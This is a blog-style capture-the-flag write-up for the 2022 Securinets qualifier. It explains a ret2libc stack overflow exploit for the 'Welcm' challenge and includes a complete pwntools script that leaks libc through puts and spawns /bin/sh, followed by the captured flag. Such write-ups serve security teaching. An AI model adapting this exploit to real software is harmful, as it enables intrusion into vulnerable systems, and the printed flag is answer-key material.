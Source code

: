 # National Cyber Security Congress

[Securiday](https://www.facebook.com/Securiday-104756755537130/) qualifiation round, hosted by [Securinets](https://www.facebook.com/Securinets), a 24 hour CTF. Top #10 teams will be able to compete in Securiday CTF.<br/>
I've participated in the CTF as a member of Enthousiast team. We ranked 22 out of 295 teams.<br />
I'll be sharing a writeup for the Binary Exploitation challenges.

<br/>
<hr>

* ### Welcm

For this one, we get a binary & a libc, what a time saver.

As a start, we'll check the security of the binary.

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/sec.png"><br/>
</p>
<br />

Now, let's check the binary in Ghidra:
<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/welcm.png"><br/>
</p>
<br />

A basic ret2libc, we check ropper for a `pop rdi` gadget:

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/pop_rdi.png"><br/>
</p>
<br />

Now, let's head to GDB, we check the functions we have ( `info functions` )

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/gdb.png"><br/>
</p>
<br />

No tricks I see, We have everything we'll need.

As a start, we'll need to leak a libc address from the GOT entry. Since we have `puts` available in the binary, we can use it to leak our address. After that, we'll be able to calculate the libc base address. Therefore, we'll be able to find `system` address in memory alongside our `/bin/sh` string.

Summary:

1. Return to `puts`, giving it it's own GOT entry address as a parameter.
2. Find libc base address.
3. Return to `system` giving it `/bin/sh` as parameter.

Considering Ghidra's output, we have 128 bytes for our input + 8 bytes for the RBP, which gives us a total of 136 bytes for the RIP offset. We can start writing our payload.

<details>
  <summary>Show payload</summary>
  
  ```python
  #!/usr/bin/env python3

  from pwn import *

  exe = ELF("./welc_patched")
  libc = ELF("./libc.so.6", checksec=False)

  context.binary = exe
  LOCAL = False


  def conn():
      if LOCAL:
          r = process([exe.path])
      else:
          r = remote("20.216.39.14", 1237)

      return r


  def main():
      r = conn()

      PUTS_PLT = p64(0x0000000000401060)
      PUTS_GOT = p64(0x404018)
      POP_RDI  = p64(0x0000000000401283)
      MAIN     = p64(0x00000000004011db)
      MAIN_RET = p64(0x000000000040121e)

      offset = 136

      # First stage
      # Leak puts address & return to main for stage 2
      payload = b"A"*offset
      payload += POP_RDI
      payload += PUTS_GOT
      payload += PUTS_PLT
      payload += MAIN

      print(payload)

      r.sendline(payload)

      r.recvuntil(b'about you ?\n')
      leak_puts = u64(r.readline()[:-1].ljust(8, b'\x00'))
      base_libc = leak_puts - libc.sym['puts'] # Libc base

      print('Leaked libc           :', hex(leak_puts))
      print('Libc base             :', hex(base_libc))

      SYSTEM = p64(libc.sym['system'] + base_libc)
      BIN    = p64(next(libc.search(b'/bin/sh')) + base_libc)

      # Stage 2, System("/bin/sh")
      payload = b"A"*offset
      payload += MAIN_RET # Alignement
      payload += POP_RDI
      payload += BIN
      payload += SYSTEM

      r.sendline(payload)

      r.interactive()


  if __name__ == "__main__":
      main()
  ```
</details>

And we get our flag: `Securinets{5d91d2e01b854fd457c1d8b592a19b38af6b4a33c6362b7d}`


* ### shellcraft

WIP
